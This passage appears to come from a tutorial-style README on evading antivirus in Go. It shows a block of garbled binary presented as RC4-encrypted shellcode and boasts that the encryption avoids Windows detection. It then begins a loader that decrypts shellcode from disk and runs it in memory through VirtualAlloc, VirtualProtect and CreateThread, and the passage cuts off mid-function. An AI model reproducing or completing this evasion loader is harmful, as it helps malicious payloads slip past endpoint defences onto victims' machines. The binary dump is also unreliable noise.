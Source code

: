 ```go
	}

	log.Println("Encryption completed successfully.")
}
``` 

## T3h encrypted shellcode looks like this... Much different than the raw shellcode, so it goes unnoticed.

**encrypted_shellcode.bin** 
```go  
�����@�YArq{����dY��<�%}��
P>{��=�Fe=���� _�nzk�����[�}��%�?��������g�ُ�\nl��(��WwlC�m�;
E���u��~�$��k���؄i�&t�i;M(e;J�|�uv��}�	'����J9��a
1nC�����
�ˏ����F�������ϚX�9y�n�Xa�;ŀ̸�4
`����>lig����
�wHW�`
���Ce^F+�G�w�q�o#��( �o�[�F&4���z3�$̳_�
``` 

## We are safe from w1ndoze for the moment, no detections when we aren't using known shellcode in our script.

**We decrypt the rc4 encrypted shellcode stored on disk and push it to memory**  

```  
go run sample-2.go
```  

**sample-2.go: rc4 decrypt and push to memory.**
```go  
package main

import (
	"crypto/rc4"
	"fmt"
	"io/ioutil"
	"syscall"
	"unsafe"
)

var (
	kernel32            = syscall.NewLazyDLL("kernel32.dll")
	ntdll               = syscall.NewLazyDLL("ntdll.dll")
	virtualAlloc        = kernel32.NewProc("VirtualAlloc")
	virtualProtect      = kernel32.NewProc("VirtualProtect")
	createThread        = kernel32.NewProc("CreateThread")
	waitForSingleObject = kernel32.NewProc("WaitForSingleObject")
	rtlMoveMemory       = ntdll.NewProc("RtlMoveMemory")
)

const (
	MEM_COMMIT        = 0x00001000
	MEM_RESERVE       = 0x00002000
	PAGE_READWRITE    = 0x04
	PAGE_EXECUTE_READ = 0x20
	INFINITE          = 0xFFFFFFFF
)

func executeShellcode(shellcode []byte) {
	// Allocate memory for the shellcode
	mem, _, _ := virtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)
```